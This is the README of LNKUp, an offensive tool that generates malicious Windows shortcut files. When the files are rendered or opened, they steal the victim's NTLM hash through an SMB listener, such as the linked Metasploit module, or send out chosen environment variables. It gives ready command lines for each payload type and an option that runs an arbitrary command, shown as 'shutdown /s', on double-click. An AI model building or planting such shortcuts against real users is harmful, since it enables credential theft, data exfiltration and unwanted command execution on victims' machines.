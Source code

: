# LNKUp
LNK Data exfiltration payload generator
---
This tool will allow you to generate LNK payloads. Upon rendering or being run, they will exfiltrate data.

## Usage

#### Payload types:
* NTLM
	* Steals the user's NTLM hash when rendered.
	* Needs listener server such as this [metasploit module](https://www.rapid7.com/db/modules/auxiliary/server/capture/smb)
	* More on NTLM hashes leaking: [https://dylankatz.com/NTLM-Hashes-Microsoft's-Ancient-Design-Flaw/](https://dylankatz.com/NTLM-Hashes-Microsoft's-Ancient-Design-Flaw/?utm_source=github_lnkup)
	* Example usage:   
	 `lnkup.py --host localhost --type ntlm --output out.lnk`
* Environment
	* Steals the user's environment variables.
	* Examples: %PATH%, %USERNAME%, etc
	* Requires variables to be set using --vars
	* Example usage:   
	 `lnkup.py --host localhost --type environment --vars PATH USERNAME JAVA_HOME --output out.lnk`
#### Extra:
* Use `--execute` to specify a command to run when the shortcut is double clicked
	* Example:   
	  `lnkup.py --host localhost --type ntlm --output out.lnk --execute "shutdown /s"`
